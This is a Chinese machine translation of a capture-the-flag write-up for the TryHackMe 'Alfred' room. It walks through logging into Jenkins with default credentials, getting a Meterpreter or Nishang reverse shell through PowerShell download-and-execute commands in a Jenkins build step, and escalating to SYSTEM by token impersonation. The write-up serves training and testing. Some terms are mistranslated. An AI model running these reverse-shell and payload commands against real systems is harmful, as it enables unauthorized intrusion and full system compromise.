






# TryHackMe 报道:阿尔弗雷德

> 原文：<https://infosecwriteups.com/tryhackme-writeup-alfred-2ecd773aeda5?source=collection_archive---------1----------------------->

*阿尔弗雷德*房间挑战 TryHackMe 用户“利用*詹金斯*获得初始外壳，然后通过利用 Windows 认证令牌升级你的权限”([“TryHackMe”，2019](https://tryhackme.com/room/alfred) )。 [Jenkins (n.d.)](https://www.jenkins.io/) 是服务器自动化领域的竞争者，*认证令牌*是“描述进程或线程的安全上下文的对象”( [Kennedy 等人，2021](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens) )。在本文中，我打算证明 Jenkins 可以被用作获得目标系统初始访问权的媒介，然后使用令牌转移来提升权限。


基础图片:[多布金斯(1999)](https://www.youtube.com/watch?v=faGib7zY1rA)

# 程序

这个房间的目标是:

*   转储存储在`user.txt`中的用户标志
*   并转储存储在`C:\Windows\System32\configs\root.txt`中的根标志

…当然还有学习新的东西；-)

## 初始探测

与这些 TryHackMe boot2root 虚拟机一样，我单击了第一个任务右上角的绿色按钮，然后等待几分钟，让 boot2root 虚拟机完成引导。然后，我使用以下标志和参数运行了一次`nmap`扫描:

`**$ nmap -sT -A -v [boot2root ip] -Pn -p- -O -sC -oX tcp_scan.xml**`

这是一台 Windows 机器，所以它不响应`ping`请求，因此使用`-Pn`标志来解决这个问题。nmap 扫描识别出 boot2root 机器很可能正在运行 *Windows Server 2008* 并返回以下三(3)个端口:

```
[... snip ...]
PORT      STATE SERVICE VERSION 
80/tcp    open  http    Microsoft IIS httpd 7.5 
| http-methods: 
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn’t have a title (text/html).
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http   Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn’t have a title (text/html;charset=utf-8).
[... snip ...]
```

与此工作相关的是，它发现了一个运行在端口 80 上的 IIS web 服务器和另一个带有标题`Jetty 9.4.z-SNAPSHOT`的 HTTP 服务。我最初浏览了端口 80 上的 HTTP 服务，得到如下结果(图 1):


**图 boot2root IIS webserver 的主页**

我的下一步是使用 *DirBuster* 试图找出任何隐藏的目录。我启动程序，然后配置它(图 2):



**图 2: DirBuster 设置**

我将 boot2root 的 IP 地址和端口号放在“target URL”字段中(图 2a)，在 Kali Linux 的 wordlists 目录中设置我认为合适的单词列表(图 2b)，将 DirBuster 配置为具有两百(200)个线程的“[g]o [f]aster”(图 2c)，然后启动该过程(图 2d)。

经过大约五分钟的子目录破坏，我一无所获(见图 3):


**图 3: DirBuster 没有返回结果**

在这之后，我让我的浏览器转到在 boot2root 机器的端口 8080 上运行的 web 服务，然后遇到了我认为将进入目标系统的途径(图 4):



**图 4:詹金斯登录面板**

## 剥削

我最初打算设置 Burp Suite (Community Edition)来使用各种用户名和密码组合对 Jenkins 登录面板进行暴力攻击，但是我决定尝试使用默认凭证登录。我的第一个用户名和密码组合是`admin:admin`——我可以登录到 Jenkins 面板(图 5):



**图 5: Jenkins 管理面板**

登录到 Jenkins 后，我做的下一件事是寻找一些方法来利用它给我一个进入系统的命令 shell。经过一番研究，我发现了一种在目标系统上执行 shell 命令的方法( [Davis，2021](https://quick-adviser.com/how-do-i-run-a-shell-command-in-jenkins/) )，具体描述如下:

1.  在詹金斯创建一个自由风格的项目。
2.  使用“高级配置”页面可以使用自定义工作区。
3.  将路径添加到您的 shell 脚本中。
4.  在构建步骤下，选择“执行 shell”
5.  输入您的 shell 脚本的名称，然后单击 save 并执行它。

关于步骤 1， [Hamilton (2020)](https://www.guru99.com/create-builds-jenkins-freestyle-project.html) 将*自由风格项目*定义为“包含步骤和后期构建动作的可重复构建作业、脚本或管道。”我不打算“不折不扣地”遵循这些指示。相反，我打算只是将它作为一个参考，我可以用它来完成我的目标——即通过 Metasploit 的 Meterpreter 启动一个反向 shell。

**请注意**教室指导学生使用尼尚`Invoke-PowerShellTcp.ps1`脚本( [Mittal 和 Mehlmauer，n.d.](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) )来获得初始外壳。对这种方法感兴趣的，看最后的附录。

为了监听反向 Meterpreter shell，我将通过终端在 AttackBox 上启动 Metasploit:

```
**$ sudo msfconsole**[... snip ...]=[ metasploit v5.0.60-dev ]
+ — — =[ 1947 exploits — 1089 auxiliary — 333 post ]
+ — — =[ 556 payloads — 45 encoders — 10 nops ]
+ — — =[ 7 evasion ]**msf5 >**
```

然后，我将使用模块`exploit/multi/script/web_delivery`提供 Meterpreter shell，将有效负载设置为`windows/meterpreter/reverse_tcp`，设置选项，然后启动漏洞利用:

```
**msf5 >** **use exploit/multi/script/web_delivery**
**msf5 exploit(multi/script/web_delivery) > set PAYLOAD windows/meterpreter/reverse_tcp**
PAYLOAD => windows/meterpreter/reverse_tcp
**msf5 exploit(multi/script/web_delivery) >** **set SRVHOST <attackbox ip>**
SRVHOST => <attackbox ip>
**msf5 exploit(multi/script/web_delivery) >** **set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf5 exploit(multi/script/web_delivery) > set TARGET 2**
TARGET => 2
**msf5 exploit(multi/script/web_delivery) > exploit**
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
**msf5 exploit(multi/script/web_delivery) >** 
[*] Started HTTPS reverse handler on https://<attackbox ip>:4444
[*] Using URL: http://<attackbox ip>:8080/lH2GrCFxu1
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $Z=new-object net.webclient;$Z.proxy=[Net.WebRequest]::GetSystemWebProxy();$Z.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $Z.downloadstring('http://<attackbox ip>:8080/lH2GrCFxu1');
```

Meterpreter 给了我一个在目标机器上执行的 PowerShell 命令。将我的注意力转回到 Jenkins 面板，我注意到 Jenkins 面板中有一个现有的项目(图 5a)，并决定检查它。



**图 6:“项目”的项目空间**

为了得到一个 Meterpreter shell，我点击了“[c]configure”(图 6a)并向下滚动到“[b]build”部分:



**图 7:【建造】部分**

在命令文本框上(图 7a)，我用 Metasploit 给出的以下 PowerShell 命令替换了`whoami`命令:

```
powershell.exe -nop -w hidden -c $Z=new-object net.webclient;$Z.proxy=[Net.WebRequest]::GetSystemWebProxy();$Z.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $Z.downloadstring('http://<attackbox ip>:8080/lH2GrCFxu1');
```

然后，我依次点击“应用”按钮(图 7b)和“保存”按钮(图 7c)。最后，为了获得反向的 Meterpreter shell，我单击了项目主页上的“Build Now”按钮(图 6b ),并在我的攻击框中获得了以下内容:

```
msf5 exploit(multi/script/web_delivery) > [*] <boot2root ip> web_delivery — Delivering Payload (1933) bytes
[*] Sending stage (180291 bytes) to <boot2root ip>
[*] Meterpreter session 1 opened (<attackbox ip>:4444 -> <boot2root ip>:49287) at [redacted] -0400**msf5 exploit(multi/script/web_delivery) >**
```

下一步自然是与 Meterpreter 会话进行交互:

```
**msf5 exploit(multi/script/web_delivery) > sessions -l**Active sessions
===============Id Name Type Information Connection
-- ---- ---- ----------- ----------
 1 meterpreter x86/windows alfred\bruce @ ALFRED <attackbox ip>:4444 -> <boot2root ip>:49287 (<boot2root ip>)**msf5 exploit(multi/script/web_delivery) > sessions -i 1**
[*] Starting interaction with 1…
```

## 后剥削

我将从转储`user.txt`文件开始获取一个标志:

```
**meterpreter > search -f user.txt**
Found 1 result…
 c:\Users\bruce\Desktop\user.txt (32 bytes)
**meterpreter > cat C:\\Users\\bruce\\Desktop\\user.txt**
[redacted]**meterpreter >**
```

接下来，我将升级我的特权来获得`root.txt`旗帜。首先，我进入一个 Windows 命令提示符 shell，并使用`whoami /priv`来获取我目前拥有的特权令牌:

```
**meterpreter > shell**
Process 2768 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright © 2009 Microsoft Corporation. All rights reserved.**C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv**
whoami /priv
```

返回了以下特权令牌及其各自的状态:



**图 boot2root 机器上的当前特权令牌**

我注意到`SeDebugPrivilege`、`SeChangeNotifyPrivilege`、`SeImpersonatePrivilege`和`SeCreateGlobalPrivilege`设置为“启用”状态。这可以被 Meterpreter 的`incognito`模块利用来进行权限提升。首先，我将列出可以模拟的帐户数量:

```
**meterpreter > use incognito**
Loading extension incognito…Success. 
**meterpreter > list_tokens -g** 
[-] Warning: Not currently running as SYSTEM, not all tokens will be available 
 Call rev2self if primary process token is SYSTEM 

Delegation Tokens Available 
======================================== 
\
BUILTIN\Administrators[... snip ...]**meterpreter >**
```

然后，我使用`incognito`的`impersonate_token`命令获得系统权限:

```
**meterpreter > impersonate_token BUILTIN\\Administrators**
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
 Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

这可以用`getuid`命令来验证:

```
**meterpreter > getuid**
Server username: NT AUTHORITY\SYSTEM
```

该房间注意到当前流程不稳定([“tryhackme”，2019，任务 3](https://tryhackme.com/room/alfred) )，并建议迁移`services.exe`的一个实例作为额外措施:

```
**meterpreter > ps**Process List
============PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
[... snip ...]
 668 580 services.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\services.exe
[... snip ....]**meterpreter > migrate 668**
[*] Migrating from 2708 to 668…
[*] Migration completed successfully.
```

最后，我可以得到`root.txt`标志:

```
**meterpreter > cat C:\\Windows\\System32\\config\\root.txt**
��[redacted]
```

从而完成本实验的所有目标。

# 结论

这个房间相当有趣。我了解了 existence Jenkins 应用程序，并有机会尝试一种交付 Meterpreter 有效负载的新技术，这种技术不同于使用手动将 Meterpreter 可执行文件传输到目标系统的“传统”方法。

记住，对于任何对通过 Nishang 方法获得 Meterpreter shell 感兴趣的人，请查看附录。

## 外卖食品

1.  有时目标应用程序不在主 web 服务器上。
2.  总是尝试使用默认的登录凭证，因为与暴力破解相比，它可以节省很多时间；-)
3.  并不总是需要内核漏洞。用户可以使用`incognito`模块提升权限。
4.  与`multi/handler`和`msfvenom`方法相比,`web_delivery`有效载荷交付更快、更容易执行；-)

## 插头

看看我的朋友米拉·拉辛，她和其他同事一样，需要经济和情感上的帮助。请查看以下链接:

*   她的推特简介:[https://twitter.com/MiraLazine](https://twitter.com/MiraLazine)
*   她的中等身材:[https://medium.com/@MiraLazine](https://medium.com/@MiraLazine)
*   用现金捐给她自己。app:[https://cash.app/$MiraLazine](https://cash.app/$MiraLazine)

# 附录:通过霓裳反转外壳

在这篇文章中，我使用 Metasploit 的`web_delivery`模块立即获得了一个 PowerShell。然而，房间建议通过尼尚的`Invoke-PowerShellTcp.ps1`剧本([米塔尔和梅尔穆尔，n.d.](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) )得到一个反向外壳。房间给出了要在 boot2root 机器上执行的以下命令:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<attackbox ip>:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <attackbox ip> -Port 4444
```

**注意，* ***单引号*** *应与* `DownloadString` *函数一起使用，* ***不能用双引号*** 。如果使用单引号，该命令将不起作用。

这将指示 boot2root 计算机下载`Invoke-PowerShellTcp.ps1`脚本，然后使用其功能创建我的攻击箱的反向外壳。

在让 Jenkins 执行这个命令之前，我必须在我的 AttackBox 上启动一个 Python HTTP 服务器，它将服务于`Invoke-PowerShellTcp.ps1`脚本。我使用下面的命令做到了这一点，该命令位于带有`Invoke-PowerShellTcp.ps1` PowerShell 脚本的工作目录中:

```
**$ python3 -m http.server 8888** Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

我还在我的 AttackBox 上设置了一个反向 *netcat* 监听器，使用以下命令监听 PowerShell 反向 Shell:

```
**$ nc -l -v -n -p 4444** listening on [any] 4444 ...
```

当利用 Jenkins 面板时，可以用 PowerShell 命令代替 Metasploit 的`web_delivery`模块给出的命令。这样做之后，应该会收到类似如下的内容:

```
listening on [any] 4444 …
connect to [attackbox ip] from (UNKNOWN) [boot2root ip] 49256
Windows PowerShell running as user bruce on ALFRED
Copyright © 2015 Microsoft Corporation. All rights reserved.**PS C:\Program Files (x86)\Jenkins\workspace\project>**
```

回到攻击框，教室建议学生生成一个可执行的有效负载来调用一个 Meterpreter 反向 TCP shell:

```
**$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder        x86/shikata_ga_nai LHOST=<attackbox ip> LPORT=4445 -f exe -o payload.exe** [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: payload.exe
```

然后，指导学生通过`exploit/multi/handler`启动 Meterpreter 反向 TCP 处理程序

```
**$ sudo msfconsole**[... snip ...]=[ metasploit v5.0.60-dev ]
+ — — =[ 1947 exploits — 1089 auxiliary — 333 post ]
+ — — =[ 556 payloads — 45 encoders — 10 nops ]
+ — — =[ 7 evasion ]**msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp**
PAYLOAD => windows/meterpreter/reverse_tcp
**msf5 exploit(multi/handler) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf5 exploit(multi/handler) > set LPORT 4445**
LPORT => 4445
**msf5 exploit(multi/handler) > exploit**[*] Started reverse TCP handler on 10.9.6.135:4445
```

在 boot2root shell 上，我下载并执行了`payload.exe`文件:

```
**PS C:\> cd C:\\Users\\bruce\\Desktop\\**
**PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://<attackbox ip>:8888/payload.exe','payload.exe')"**
**PS C:\Users\bruce\Desktop> ls**Directory: C:\Users\bruce\DesktopMode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---                  [redacted]      73802 payload.exe                       
-a---        10/25/2019  11:22 PM         32 user.txt**PS C:\Users\bruce\Desktop> Start-Process "payload.exe"**
**PS C:\Users\bruce\Desktop>**
```

并启动反向抄表器外壳:

```
[*] Started reverse TCP handler on <attackbox ip>:4445 
[*] Sending stage (180291 bytes) to <boot2root ip>
[*] Meterpreter session 1 opened (<attackbox ip>:4445 -> <boot2root ip>:49287) at [redacted] -0400**meterpreter >**
```

阿洛拉。

# 参考

戴维斯，H. (2021)。*如何在 Jenkins 中运行 shell 命令？*快速顾问。2022 年 3 月 20 日检索自:[https://quick-adviser . com/how-do-I-run-a-shell-command-in-Jenkins/](https://quick-adviser.com/how-do-i-run-a-shell-command-in-jenkins/)

多布金斯，议员(1999 年)。*我！我！我！(第一季第三集)*【电视剧集】。古怪的神秘事件。链接:[https://www.youtube.com/watch?v=faGib7zY1rA](https://www.youtube.com/watch?v=faGib7zY1rA)

t .汉密尔顿(2020 年)。*如何在 Jenkins Freestyle 项目中创建新的构建作业*。Guru99。2022 年 3 月 20 日检索自:[https://www . guru 99 . com/create-builds-Jenkins-free style-project . html](https://www.guru99.com/create-builds-jenkins-freestyle-project.html)

詹金斯(挪威)。2022 年 3 月 22 日检索自:[https://www.jenkins.io/](https://www.jenkins.io/)

肯尼迪等人(2021 年)。*访问令牌*。微软文档。2022 年 3 月 22 日检索自:[https://docs . Microsoft . com/en-us/windows/win32/secauthz/access-tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)

Mittal，n .和 Mehlmauer，c .(未注明)。*调用-PowerShellTcp.ps1* 。GitHub 仓库。2022 年 3 月 20 日检索自:[https://github . com/samratashok/nishang/blob/master/shell/Invoke-powershelltcp . PS1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

《tryhackme》(2019)。阿尔弗雷德。2022 年 3 月 22 日检索自:[https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)